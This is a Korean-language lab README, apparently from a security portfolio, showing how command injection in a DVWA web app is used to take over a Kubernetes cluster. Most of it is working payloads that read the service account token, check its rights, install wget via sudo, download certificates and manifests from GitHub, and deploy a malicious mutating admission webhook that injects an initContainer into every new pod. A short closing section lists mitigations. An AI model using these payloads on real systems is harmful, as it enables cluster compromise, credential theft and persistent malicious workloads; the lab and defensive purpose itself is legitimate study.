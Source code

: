 # 개요
* admission controller을 사용하여 악성코드 pod를 생성

# 공격 방법
1. serviceAccount token 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token
```

![token](./imgs/attack1_token.png)

2. pod(정확한 표현은 serviceAccount)의 namespace 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/namespace
```

![token](./imgs/attack1_namespace.png)

3. serviceAcount token 권한 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"dvwa"}}' https://kubernetes.default.svc.cluster.local/apis/authorization.k8s.io/v1/selfsubjectrulesreviews; }
```

![token](./imgs/attack1_authorization.png)

4. user id 확인

```sh
127.0.0.1 -c 1 && id
```

5. sudo 명령어 실행이 가능한지 확인

```sh
127.0.0.1 -c 1 && sudo id
```

![](./imgs/attack3_sudo.png)

5. 운영체제 확인

```sh
127.0.0.1 -c 1 && cat /etc/os-release
```

![](./imgs/attack3_os.png)


6. wget 설치

```sh
127.0.0.1 -c 1 && sudo apt update && echo done && sudo apt install wget
```

![](./imgs/attack3_apt_install.png)

7. admission controller webhook 인증서 다운로드

* ca.key, ca.crt 다운로드

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/certs/ca.crt && cat ca.crt
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/certs/ca.key && cat ca.key
```

* secret 생성

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -X POST -d '{"apiVersion":"v1","kind":"Secret","metadata":{"name":"webhook-certs","namespace":"default"},"data":{"tls.crt":"'"$(cat ca.crt | base64 | tr -d '\n')"'","tls.key":"'"$(cat ca.key | base64 | tr -d '\n')"'"},"type":"kubernetes.io/tls"}' https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/secrets; }
```

* admission controller pod 생성

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/admission-controller-deployment.yaml && cat admission-controller-deployment.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @admission-controller-deployment.yaml https://kubernetes.default.svc.cluster.local/apis/apps/v1/namespaces/default/deployments; }
```

* admission controler service 생성

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/admission-controller-service.yaml && cat admission-controller-service.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @admission-controller-service.yaml https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/services; }
```

* mutate webook 배포

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/mutate-webhook.yaml && cat mutate-webhook.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @mutate-webhook.yaml https://kubernetes.default.svc.cluster.local/apis/admissionregistration.k8s.io/v1/mutatingwebhookconfigurations; }
```

* 이제 공격자는 pod를 배포할 때마다 악성 initContainer가 생성됩니다. kubectl로 nginx pod를 생성해보세요

```sh
$ kubectl run --image=nginx -n default nginx-test
$ kubectl describe pod nginx-test -n default | grep "Init Container" -A 5
Init Containers:
  busybox-by-mutatehandler:
    Container ID:   containerd://3e244fbe4e0311f797388939705dbb1687c423f1953e02bea2cca987bb46ffb4
    Image:          busybox
    Image ID:       docker.io/library/busybox@sha256:9ae97d36d26566ff84e8893c64a6dc4fe8ca6d1144bf5b87b2b85a32def253c7
    Port:           <none>
```

# 보안조치
* sudo 권한 제거
* 쿠버네티스에서 권한상승을 막도록 설정(참고자료: https://malwareanalysis.tistory.com/589)

```sh
# 예제
apiVersion: v1
kind: Pod
metadata:
 name: ubunut-disallow-sudo
spec:
 containers:
 - name: main
   image: ubuntu:sudo
   command: [ "sh", "-c", "sleep 1h" ]
   securityContext:
     allowPrivilegeEscalation: false
```

* [role](./manifests/dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./manifests/dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장(써드파티 사용, 예: vault)
